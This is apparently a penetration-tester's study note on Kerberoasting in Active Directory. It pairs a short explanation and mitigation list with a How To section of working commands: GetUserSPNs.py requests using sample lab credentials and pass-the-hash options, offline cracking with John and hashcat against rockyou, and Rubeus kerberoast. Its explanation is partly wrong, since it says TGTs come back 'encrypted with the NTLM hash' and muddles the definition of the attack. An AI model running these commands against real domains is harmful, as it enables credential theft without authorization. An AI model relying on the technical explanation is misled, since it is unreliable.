 # Kerberoasting

## Introduction

Kerberos encrypts Ticket Granting Tickets (TGTs) that are provided from the Domain Controller (DC) -- Which typically acts as the Key Distribution Center (KDC) against a user's Kerberos hash. <mark style="color:red;">Kerberoasting</mark> means that <mark style="color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

Note: You NEED valid credentials inside the domain to perform this attack.

## High-Level Understanding

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* It is important that we focus on the <mark style="color:yellow;">KRB-TGS-REQ</mark> and <mark style="color:yellow;">KRB-TGS-REP</mark>
* With the <mark style="color:yellow;">REQ portion</mark>, you are requesting the TGT from the TGS
* With the <mark style="color:yellow;">REP portion</mark>, you are obtaining the <mark style="color:yellow;">TGT reply</mark> that is <mark style="color:yellow;">encrypted with the NTLM hash</mark> of the account that the service is running under&#x20;
  * This is typically a <mark style="color:yellow;">SPN</mark>
  * What does this look like?&#x20;
    * <mark style="color:yellow;">mssql\_svc</mark>
    * <mark style="color:yellow;">MSSQL/sql1@htb.local</mark>
    * <mark style="color:yellow;">Service/hostname@domain</mark>
* You can then take the NTLM hash offline (obtained from the Kerberos TGT Reply message) and crack it
* You can <mark style="color:yellow;">execute this attack remotely or locally</mark> as long as you have <mark style="color:yellow;">valid account credentials</mark>

### Mitigation Strategies

* Since kerberoasting takes advantage of the pure nature of Kerberos, there is no official mitigation strategy for it, simply recommendations
* Therefore, enforcing strong and complex passwords throughout your domain is the best way to mitigate this threat
* Rotate these credentials often; expiration times
* Make sure your service accounts are using the least privilege possible
  * Do NOT put these accounts in the domain admins group

## How To

### Get-UserSPNs.py

* Check if the user has a SPN with the following command:

```python
Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

# The SPN will appear as RESEARCH/web_svc.search.htb:60001
# You will also get a hash, save it and crack with John

john --wordlist=/usr/share/wordlists/rockyou.txt hash

# Or Hashcat

hashcat -m 13100 -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
# -a 0 -- Execute dictionary attack against provided details with specified wordlist
```

```
# Domain Account/Credentials Method
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

# Domain Account/Credentials Method w/ Pass The Hash
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Grepping for Hashcat Formats

```
hashcat --help | grep etype
```

### Rubeus

```
Rubeus.exe kerberoast
```

## Reference

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}
